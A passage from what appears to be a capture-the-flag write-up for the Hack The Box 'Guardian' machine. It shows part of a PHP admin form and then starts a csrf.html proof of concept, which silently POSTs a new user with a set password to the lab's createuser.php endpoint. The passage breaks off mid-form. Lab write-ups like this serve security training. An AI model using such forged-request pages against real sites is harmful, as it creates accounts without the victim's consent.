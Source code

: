 ```php
                        </select>
                    </div>
                    <input type="hidden" name="csrf_token" value="<?= htmlspecialchars($token) ?>">
                    <div class="flex justify-end">
                        <button type="submit" class="bg-indigo-600 text-white px-4 py-2 rounded-lg hover:bg-indigo-700">
                            Create User
                        </button>
                    </div>
                </form>
            </div>
        </div>
    </div>
</body>

</html>
```

Let's exploit it out.

### CSRF
So to create a CSRF POC, there are plenty of way, if we are burp pro, we can use extension from it and if not, we can use from this [csrfshark](https://csrfshark.github.io/app/) that it will create a csrf based on our request.

![Guardian Lecturer CSRFSHARK](/assets/img/guardian-htb-release-area-machine/guardian-htb-release-area-machine_lecturer-csrfshark.png)

Then we will modified to suitable with the `createuser.php` and save as `csrf.html`.

```html
<!DOCTYPE html>
<html lang="en">
	<head>
		<meta charset="UTF-8">
		<meta name="viewport" content="width=device-width, initial-scale=1.0">
		<title>Form exploit</title>
		<style>
			body { font-family: Arial, sans-serif; margin: 20px; }
			form { max-width: 400px; padding: 20px; border: 1px solid #ccc; border-radius: 5px; }
			input, select { width: 100%; margin: 10px 0; padding: 5px; }
			button { background-color: #4CAF50; color: white; padding: 10px 15px; border: none; border-radius: 5px; cursor: pointer; }
			button:hover { background-color: #45a049; }
		</style>
	</head>
	<body>
		<h1>Form</h1>
		<form method="POST" action="http://portal.guardian.htb/admin/createuser.php" id="Form">
			<input type="hidden" name="csrf_token" value="dfdafd3178921588c6b68e17543b34d3">
			<input type="hidden" name="username" value="2fa0n">
        	<input type="hidden" name="password" value="pass@123">
        	<input type="hidden" name="full_name" value="2fa0nhtb">
        	<input type="hidden" name="email" value="2fa0n@guardian.htb">
        	<input type="hidden" name="dob" value="2025-09-01">
```